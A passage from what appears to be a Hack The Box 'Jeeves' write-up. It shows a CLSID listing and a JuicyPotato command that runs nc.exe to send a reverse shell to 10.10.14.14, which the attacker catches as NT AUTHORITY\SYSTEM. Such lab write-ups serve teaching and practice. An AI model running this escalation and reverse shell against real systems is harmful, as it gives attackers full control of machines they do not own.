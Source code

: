 ```powershell
{6CF9B800-50DB-46B5-9218-EACF07F5E414};NT AUTHORITY\SYSTEM
{6d18ad12-bde3-4393-b311-099c346e6df9};NT AUTHORITY\SYSTEM
{6d8ff8d2-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8dc-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8dd-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8df-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e0-730d-11d4-bf42-00b0d0118b56};JEEVES\kohsuke
{6d8ff8e1-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e5-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e7-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e8-730d-11d4-bf42-00b0d0118b56};JEEVES\kohsuke
{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39};NT AUTHORITY\SYSTEM
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
{9678f47f-2435-475c-b24a-4606f8161c16};JEEVES\kohsuke
{97061DF1-33AA-4B30-9A92-647546D943F3};NT AUTHORITY\SYSTEM
{98068995-54d2-4136-9bc9-6dbcb0a4683f};JEEVES\kohsuke
{9acf41ed-d457-4cc1-941b-ab02c26e4686};JEEVES\kohsuke
{9E175B68-F52A-11D8-B9A5-505054503030};NT AUTHORITY\SYSTEM
{9E175B6D-F52A-11D8-B9A5-505054503030};NT AUTHORITY\SYSTEM
{A47979D2-C419-11D9-A5B4-001185AD2B89};NT AUTHORITY\LOCAL SERVICE
{A9B5F443-FE02-4C19-859D-E9B5C5A1B6C6};NT AUTHORITY\SYSTEM
{B31118B2-1F49-48E5-B6F5-BC21CAEC56FB};NT AUTHORITY\SYSTEM
{B52D54BB-4818-4EB9-AA80-F9EACD371DF8};NT AUTHORITY\SYSTEM
{bb6df56b-cace-11dc-9992-0019b93a3a84};NT AUTHORITY\SYSTEM
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM
{E48EDA45-43C6-48e0-9323-A7B2067D9CD5};NT AUTHORITY\SYSTEM
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM
{E63DE750-3BD7-4BE5-9C84-6B4281988C44};NT AUTHORITY\SYSTEM
{F087771F-D74F-4C1A-BB8A-E16ACA9124EA};NT AUTHORITY\SYSTEM
```

Get SYSTEM reverse shell:

```bash
C:\users\kohsuke\downloads>.\JP.exe -l 9001 -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -a "/c C:\users\kohsuke\downloads\nc.exe 10.10.14.14 443 -e cmd.exe" -p cmd.exe
.\JP.exe -l 9001 -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -a "/c C:\users\kohsuke\downloads\nc.exe 10.10.14.14 443 -e cmd.exe" -p cmd.exe
Testing {03ca98d6-ff5d-49b8-abc6-03dd84127020} 9001
......
[+] authresult 0
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Catch the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.63] 50409
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && hostname
whoami && hostname
nt authority\system
Jeeves

C:\Users\Administrator\Desktop>dir hm.txt
dir hm.txt
 Volume in drive C has no label.
```